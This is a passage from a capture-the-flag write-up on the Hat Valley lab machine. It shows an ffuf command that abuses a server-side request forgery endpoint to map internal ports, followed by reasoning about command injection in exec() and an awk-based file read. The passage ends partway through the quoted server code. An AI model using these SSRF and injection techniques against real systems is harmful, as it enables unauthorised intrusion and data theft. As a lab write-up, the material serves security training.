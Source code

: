 So we can leverage this to fuzz for open ports from behind the firewall
```bash
ffuf \
  -w /usr/share/seclists/Discovery/Web-Content/local-ports.txt \
  -u 'http://hat-valley.htb/api/store-status?url="http://FUZZ"' \
  -x http://127.0.0.1:8080 \
  -fs 0

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://hat-valley.htb/api/store-status?url="http://FUZZ"
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/local-ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

127.0.0.1:80            [Status: 200, Size: 132, Words: 6, Lines: 9, Duration: 326ms]
127.0.0.1:3002          [Status: 200, Size: 77010, Words: 5916, Lines: 686, Duration: 288ms]
127.0.0.1:8080          [Status: 200, Size: 2881, Words: 305, Lines: 55, Duration: 252ms]
```

8080 doesn't seem very interesting, and I'm not entirely sure what it is but 3002 is some kind of documentation page, and it gives us the server side js code for the features we saw from the client side so far.

In submit-leave feature's code, the const finalEntry is passed to an exec() and we control the variables that it's made of, and it's then expanded into a system command with echo

In all-leave same concept but potentially more interesting because that's an awk command, and awk is a GTFO bin, and the way the command is constructed seems pretty close to an awk command we could use for arbitrary file read, see the js:
```js
app.get('/api/all-leave', (req, res) => {
  const user_token = req.cookies.token
  var authFailed = false
  var user = null
  if(user_token) {
    const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
    if(!decodedToken.username) {
      authFailed = true
    }
    else {
      user = decodedToken.username
    }
  }
  if(authFailed) {
    return res.status(401).json({Error: "Invalid Token"})
  }
  if(!user) {
    return res.status(500).send("Invalid user")
  }
```